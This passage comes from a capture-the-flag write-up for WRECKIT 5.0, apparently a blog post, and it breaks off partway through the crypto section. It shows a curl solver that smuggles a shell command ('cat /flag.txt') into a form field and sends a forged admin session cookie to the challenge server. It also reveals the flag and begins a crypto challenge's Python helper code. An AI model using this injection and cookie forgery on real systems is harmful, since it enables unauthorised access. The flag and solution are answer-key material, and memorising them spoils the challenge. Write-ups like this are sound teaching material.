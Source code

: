 ```bash
# Filename: solver.sh
curl -X POST -d "oshi_name=freya\"; cat /flag.txt; echo #" --cookie "session=eyJyb2xlIjoiYWRtaW4ifQ.ZrbXaQ.9CjlFr995lsT5RjKbe9D_6t4kMg" http://146.190.104.208:7012/admin
```

![Oshiku-02](/images/wreckit5.0_web1-02.png)

### Flag

{{< admonition type=question title="Click to show the flag" open=false >}}
  **WRECKIT50{oshikucumansatukok_satujkt}**
{{< /admonition >}}

---

# Crypto

## m4k c0MbL4n6

### Deskripsi

{{< admonition type=info title="Click to show the desc" open=false >}}
aku lagi jomblo. tolong carikan aku jodoh

Thanks to hash designer & attacker: @hakim01a (IG) & @yudik_suta (IG)

Connected to : nc 188.166.247.108 6969

alt: nc 13.212.238.29 6969

Author : ac3
{{< /admonition >}}

### Langkah Penyelesaian

- Diberikan 2 file, yaitu `propietary.py` dan `chall.py` .

`propietary.py`

```python
import math

def biner_ke_hex(biner):
  desimal = int(biner, 2)
  heksadesimal = hex(desimal)
  return heksadesimal[2:]

def float_bin(my_number, places=3):
  my_whole, my_dec = str(my_number).split(".")
  my_whole = int(my_whole)
  res = (str(bin(my_whole))+".").replace('0b','')

  for x in range(places):
      my_dec = str('0.')+str(my_dec)
      temp = '%1.20f' %(float(my_dec)*2)
      my_whole, my_dec = temp.split(".")
      res += my_whole
  return res

def cyclic_left_shift(value, shift):
  return ((value << shift) & 0xFFFFFFFF) | (value >> (32 - shift))

def binary32(n):
  sign = 0
  if n < 0:
```